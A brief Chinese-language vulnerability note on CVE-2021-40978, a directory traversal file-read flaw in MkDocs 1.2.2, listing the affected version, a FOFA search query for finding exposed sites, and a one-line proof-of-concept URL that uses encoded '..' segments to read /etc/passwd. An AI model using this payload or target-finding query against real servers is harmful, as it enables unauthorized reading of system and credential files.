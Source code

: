 # MKdocs 任意文件读取漏洞 CVE-2021-40978

## 漏洞描述

MKdocs中存在通过 %2e%2e 来遍历目录，读取敏感文件

## 漏洞影响

<a-checkbox checked>Mkdocs 1.2.2</a-checkbox></br>

## FOFA

<a-checkbox checked>title="My Docs"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1635243987958-b04a962a-3cd6-44d6-b422-384fbae3be46.png)

验证POC

```php
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

![img](../../../.vuepress/public/img/1635244110624-38dc3b57-ca8d-4fa1-b073-73b059a6d4be.png)